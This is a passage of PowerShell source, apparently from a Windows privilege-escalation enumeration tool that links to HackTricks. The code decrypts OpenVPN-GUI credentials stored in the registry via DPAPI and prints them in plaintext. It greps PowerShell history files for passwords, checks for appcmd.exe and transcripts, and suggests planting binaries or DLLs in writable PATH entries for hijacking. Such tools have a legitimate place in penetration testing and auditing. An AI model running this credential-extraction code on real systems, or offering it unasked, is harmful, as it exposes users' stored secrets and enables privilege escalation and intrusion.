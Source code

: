 
Write-Host ""
if ($TimeStamp) { TimeElapsed }
Write-Host -ForegroundColor Blue "=========|| APPcmd Check"
if (Test-Path ("$Env:SystemRoot\System32\inetsrv\appcmd.exe")) {
  Write-Host "https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#appcmd.exe" -ForegroundColor Yellow
  Write-Host "$Env:SystemRoot\System32\inetsrv\appcmd.exe exists!" -ForegroundColor Red
}


Write-Host ""
if ($TimeStamp) { TimeElapsed }
Write-Host -ForegroundColor Blue "=========|| OpenVPN Credentials Check"

$keys = Get-ChildItem "HKCU:\Software\OpenVPN-GUI\configs" -ErrorAction SilentlyContinue
if ($Keys) {
  Add-Type -AssemblyName System.Security
  $items = $keys | ForEach-Object { Get-ItemProperty $_.PsPath }
  foreach ($item in $items) {
    $encryptedbytes = $item.'auth-data'
    $entropy = $item.'entropy'
    $entropy = $entropy[0..(($entropy.Length) - 2)]

    $decryptedbytes = [System.Security.Cryptography.ProtectedData]::Unprotect(
      $encryptedBytes, 
      $entropy, 
      [System.Security.Cryptography.DataProtectionScope]::CurrentUser)
 
    Write-Host ([System.Text.Encoding]::Unicode.GetString($decryptedbytes))
  }
}


Write-Host ""
if ($TimeStamp) { TimeElapsed }
Write-Host -ForegroundColor Blue "=========|| PowerShell History (Password Search Only)"

Write-Host "=|| PowerShell Console History"
Write-Host "=|| To see all history, run this command: Get-Content (Get-PSReadlineOption).HistorySavePath"
Write-Host $(Get-Content (Get-PSReadLineOption).HistorySavePath | Select-String pa)

Write-Host "=|| AppData PSReadline Console History "
Write-Host "=|| To see all history, run this command: Get-Content $env:USERPROFILE\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt"
Write-Host $(Get-Content "$env:USERPROFILE\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" | Select-String pa)


Write-Host "=|| PowesRhell default transrcipt history check "
if (Test-Path $env:SystemDrive\transcripts\) { "Default transcripts found at $($env:SystemDrive)\transcripts\" }


# Enumerating Environment Variables
Write-Host ""
if ($TimeStamp) { TimeElapsed }
Write-Host -ForegroundColor Blue "=========|| ENVIRONMENT VARIABLES "
Write-Host "Maybe you can take advantage of modifying/creating a binary in some of the following locations"
Write-Host "PATH variable entries permissions - place binary or DLL to execute instead of legitimate"
Write-Host "https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#dll-hijacking" -ForegroundColor Yellow
